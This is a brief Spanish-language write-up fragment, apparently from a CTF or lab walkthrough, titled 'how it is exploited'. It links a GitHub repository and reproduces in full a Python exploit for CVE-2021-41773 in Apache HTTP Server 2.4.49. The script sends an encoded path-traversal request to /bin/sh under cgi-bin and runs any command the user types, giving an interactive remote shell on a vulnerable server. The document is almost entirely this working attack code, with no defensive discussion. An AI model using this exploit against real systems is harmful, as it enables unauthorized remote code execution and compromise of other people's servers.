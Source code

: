 **Como se explota**

Buscamos un exploit, en github, como este https://github.com/thehackersbrain/CVE-2021-41773 

```python
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Exploit Author: Gaurav Raj https://gauravraj.xyz
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773


#!/usr/bin/python3

import argparse
import requests


def runcmd(target):
    url = 'http://{}'.format(target)
    req = requests.get(url)
    while True:
        cmd = input("\033[1;36m>>> \033[0m")
        if (cmd != 'exit'):
            if ('https' not in req.url):
                url = "http://{}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh".format(
                    target)
            else:
                url = "https://{}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh".format(
                    target)
            data = "echo Content-Type: text/plain; echo; {}".format(cmd)
            session = requests.Session()
            req = requests.Request(
                method='POST', url=url, data=data).prepare()
            req.url = url
            print(session.send(req).text, end='')

        else:
            exit(0)


def banner():
    print('''--------------------------------------------------------
|                \033[1;32mApache2 2.4.49\033[1;37m - \033[1;31mExploit\033[0m              |
--------------------------------------------------------''')


def main():
    parser = argparse.ArgumentParser(description="Apache2 2.4.49 Exploit")
    parser.add_argument(
        '-t', '--target', help='Specify the target IP or Domain. eg: 127.0.0.1 or example.com', required=True)
    arg = parser.parse_args()
    banner()
    try:
        runcmd(arg.target)
    except KeyboardInterrupt:
        exit(1)
    except EOFError:
        exit(1)


```